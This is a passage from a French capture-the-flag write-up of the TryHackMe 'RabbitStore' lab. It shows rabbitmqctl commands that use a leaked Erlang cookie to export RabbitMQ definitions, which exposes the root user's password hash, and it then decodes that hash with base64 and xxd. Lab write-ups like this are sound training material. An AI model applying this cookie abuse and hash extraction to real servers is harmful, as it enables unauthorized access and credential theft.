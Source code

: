J'installe donc le client et test :
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/RabbitStore]
└─$ sudo rabbitmqctl --erlang-cookie 'Cpz9[...]msg' --node rabbit@forge export_definitions /home/kali/Challenge/TryHackMe/RabbitStore/users.json
```
Ca fonctionne pas. Ca fonctionne pas car il ne connais pas **forge**, je vais l'ajouter au fichier **/etc/hosts**
```
┌──(kali㉿kali)-[~/Challenge/TryHackMe/RabbitStore]
└─$ sudo rabbitmqctl --erlang-cookie 'Cpz9[...]msg' --node rabbit@forge export_definitions /home/kali/Challenge/TryHackMe/RabbitStore/users.json
Exporting definitions in JSON to a file at "/home/kali/Challenge/TryHackMe/RabbitStore/users.json" ...
Stack trace: 

** (UndefinedFunctionError) function JSON.encode/1 is undefined or private
    (elixir 1.18.1) JSON.encode(%{permissions: [%{"configure" => ".*", "read" => ".*", "user" => "root", "vhost" => "/", "write" => ".*"}], bindings: [], queues: [%{"arguments" => %{}, "auto_delete" => false, "durable" => true, "name" => "tasks", "type" => :classic, "vhost" => "/"}], parameters: [], policies: [], rabbitmq_version: "3.9.13", exchanges: [], global_parameters: [%{"name" => :cluster_name, "value" => "rabbit@forge"}], rabbit_version: "3.9.13", topic_permissions: [%{"exchange" => "", "read" => ".*", "user" => "root", "vhost" => "/", "write" => ".*"}], users: [%{"hashing_algorithm" => :rabbit_password_hashing_sha256, "limits" => %{}, "name" => "The password for the root user is the SHA-256 hashed value of the RabbitMQ root user's password. Please don't attempt to crack SHA-256.", "password_hash" => "vyf4qvKL[...]yN34K", "tags" => []}, %{"hashing_algorithm" => :rabbit_password_hashing_sha256, "limits" => %{}, "name" => "root", "password_hash" => "49e6h[...]HtGU+YBzWF", "tags" => ["administrator"]}], vhosts: [%{"limits" => [], "metadata" => %{description: "Default virtual host", tags: []}, "name" => "/"}]})
    (rabbitmqctl 4.0.0-dev) lib/rabbitmq/cli/ctl/commands/export_definitions_command.ex:154: RabbitMQ.CLI.Ctl.Commands.ExportDefinitionsCommand.serialise/2
    (rabbitmqctl 4.0.0-dev) lib/rabbitmq/cli/ctl/commands/export_definitions_command.ex:76: RabbitMQ.CLI.Ctl.Commands.ExportDefinitionsCommand.run/2
    (rabbitmqctl 4.0.0-dev) lib/rabbitmqctl.ex:174: RabbitMQCtl.maybe_run_command/3
    (rabbitmqctl 4.0.0-dev) lib/rabbitmqctl.ex:142: anonymous fn/5 in RabbitMQCtl.do_exec_parsed_command/5
    (rabbitmqctl 4.0.0-dev) lib/rabbitmqctl.ex:642: RabbitMQCtl.maybe_with_distribution/3
    (rabbitmqctl 4.0.0-dev) lib/rabbitmqctl.ex:107: RabbitMQCtl.exec_command/2
    (rabbitmqctl 4.0.0-dev) lib/rabbitmqctl.ex:41: RabbitMQCtl.main/1

Error:
:undef

```
Ca fonctionne !!!!!!!!! On a le hash de root !!!!
C'est du base64, regardons :
```
echo "49e6hSl[...]GU+YBzWF" | base64 -d
�׺�)]�a}���c'�/�\C���aH�O�5�
```
Bon, en regardant la doc de [Rabbitmq](https://www.rabbitmq.com/docs/passwords)
On vois qu'il y a aussi de l'hexa.. On va donc utiliser **xxd** qui permet de faire des dump hexadécimaux.
```
echo -n '49e6hSl[...]GU+YBzWF' | base64 -d | xxd -p
```
```
┌──(kali㉿kali)-[~/Scripts]
└─$ echo -n '49e6hSl[...]GU+YBzWF' | base64 -d | xxd -p       
e3d7ba8529[...]43b3f6ec614811ed
194f98073585
```
Ce qui nous donne: 
```
e3d7ba8529[...]43b3f6ec614811ed194f98073585
```